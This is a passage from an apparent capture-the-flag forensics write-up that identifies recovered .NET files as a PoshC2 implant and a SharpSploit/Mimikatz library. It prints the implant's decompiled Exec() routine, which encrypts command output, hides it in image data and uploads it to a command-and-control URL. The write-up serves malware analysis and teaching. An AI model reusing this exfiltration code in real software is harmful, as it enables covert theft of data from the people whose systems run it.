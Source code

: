 If we check what file is what, we confirm we see .NET files.
```shell
kali@transistor:~/ctf/cyber-apocalypse-2023/forensics/interstellar_c2$ file *.dll
mal1-0.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
mal1-1.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
mal2-0.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

If we stick this into dnSpy, the metadata immediately tells us what is what:
- `mal1-0.dll` is actually an `exe` file called Core. Simply scrolling through the source code tells us that this is a [PoshC2](https://github.com/nettitude/PoshC2) implant
- `mal1-1.dll` is a DLL called `PwrStatusTracker` which handles how Windows turns on and off? I'm not entirely sure.
- `mal2-0.dll` is just a copy of [SharpSploit](https://github.com/cobbr/SharpSploit), with Mimikatz in it

I definitely spent a while trying to reverse each of these .NET files, but ultimately, it doesn't really get us any closer to the flag. What we really need to do is figure out what data is being exfiltrated. 

## Stage 4: Exfiltration
### Analyzing Exfiltration Function
If we look at the `Program.Exec()` function, it doesn't actually execute anything, rather, it exfiltrates output data.
```cs
public static void Exec(string cmd, string taskId, string key = null, byte[] encByte = null)
{
	if (string.IsNullOrEmpty(key))
	{
		key = Program.pKey;
	}
	string text = Program.Encryption(key, taskId, false, null);
	string text2;
	if (encByte != null)
	{
		text2 = Program.Encryption(key, null, true, encByte);
	}
	else
	{
		text2 = Program.Encryption(key, cmd, true, null);
	}
	byte[] array = Convert.FromBase64String(text2);
	byte[] imgData = Program.ImgGen.GetImgData(array);
	int i = 0;
	while (i < 5)
	{
		i++;
		try
		{
			Program.GetWebRequest(text).UploadData(Program.UrlGen.GenerateUrl(), imgData);
			i = 5;
		}
		catch
		{
		}
	}
}
```
